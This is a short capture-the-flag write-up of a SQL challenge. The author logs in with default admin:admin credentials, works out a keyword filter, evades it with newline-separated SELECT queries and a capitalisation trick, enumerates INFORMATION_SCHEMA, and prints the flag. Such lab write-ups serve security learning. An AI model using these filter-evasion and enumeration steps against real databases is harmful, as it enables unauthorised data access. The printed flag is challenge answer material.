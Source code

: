 Write-up:

1. Logging in as `admin:admin` works. We are shown a textbox to enter a SQL query.

2. After some attempts at different queries, we find the following rules:
   1. Query must start with SELECT
   2. Can't use whitespaces
   3. Can't use ';'
   4. Can't use '/'
   5. Can't use '()'
   6. Can't use '`'
   7. Can't use '='
   8. Can't use '*'
   9. Can't use single quotes
   
3. After some attemps, the following query works: 

    ```sql
    SELECT
    SCHEMA_NAME
    FROM
    INFORMATION_SCHEMA.SCHEMATA
    ```

4. The following query finds us an interesting table called `f14gs_w9391a83478972077a56e38cb8edaeb83652365a6`

    ```sql
    SELECT
    TABLE_SCHEMA,TABLE_NAME
    FROM
    INFORMATION_SCHEMA.TABLES
    ```

5. The following query reveals the only column in the relevant table: `flag_69bce679dc88f`

    ```sql
    SELECT
    TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME
    FROM
    INFORMATION_SCHEMA.COLUMNS
    ```

6. The following query shows us we can't use the word flag:

    ```sql
    SELECT
    flag_69bce679dc88f
    FROM
    test.f14gs_w9391a83478972077a56e38cb8edaeb83652365a6
    ```

    To work around this, we use capital letters:

    ```sql
    SELECT
    FLAG_69bce679dc88f
    FROM
    test.f14gs_w9391a83478972077a56e38cb8edaeb83652365a6
    ```

    This shows us the flag: `CRHC{7u3t_l3t_u_f4mi1i@r_w17h_3ql_3yn7ax}`
